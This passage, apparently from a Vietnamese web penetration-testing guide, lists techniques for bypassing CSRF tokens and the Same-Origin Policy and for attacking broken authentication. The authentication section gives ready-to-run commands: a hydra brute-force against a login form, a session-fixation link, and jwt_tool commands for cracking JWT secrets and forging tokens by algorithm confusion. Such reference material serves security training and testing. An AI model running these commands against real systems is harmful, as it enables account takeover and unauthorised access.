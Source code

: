 ```
# Bypass CSRF token validation
- Sử dụng các yêu cầu không yêu cầu token
- Dự đoán giá trị token nếu được tạo không an toàn
- Tận dụng các lỗi XSS để đánh cắp token hợp lệ

# Bypass Same-Origin Policy
- Flash cross-domain policies
- Tận dụng các JSONP endpoints
- CORS misconfiguration
```

## 3.9. Broken Authentication

Broken Authentication xảy ra khi các chức năng liên quan đến xác thực và quản lý phiên được triển khai không đúng, cho phép kẻ tấn công chiếm đoạt tài khoản hoặc ID phiên.

### Common attack vectors:

```
# Brute force / Credential stuffing
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

# Session fixation
<a href="https://target.com/login?JSESSIONID=abcd">Click here</a>

# Password reset flaws
- Guessable/predictable tokens
- Tokens sent to compromised email accounts
- No confirmation required for email change 

# JWT attacks
- Using none algorithm: {"alg":"none","typ":"JWT"}
- Using known secrets: HS256 with weak secret
- Signature bypass by manipulating header/payload
```

### JWT token tampering:

```bash
# Decode JWT
jwtcrack token_here

# Brute force JWT secret
python3 jwt_tool.py eyJ0eXA...token_here -C -d /usr/share/wordlists/rockyou.txt

# Change algorithm from RS256 to HS256
python3 jwt_tool.py eyJ0eXA...token_here -T

# Use the public key as the secret in HS256
python3 jwt_tool.py eyJ0eXA...token_here -S hs256 -k public.pem
```
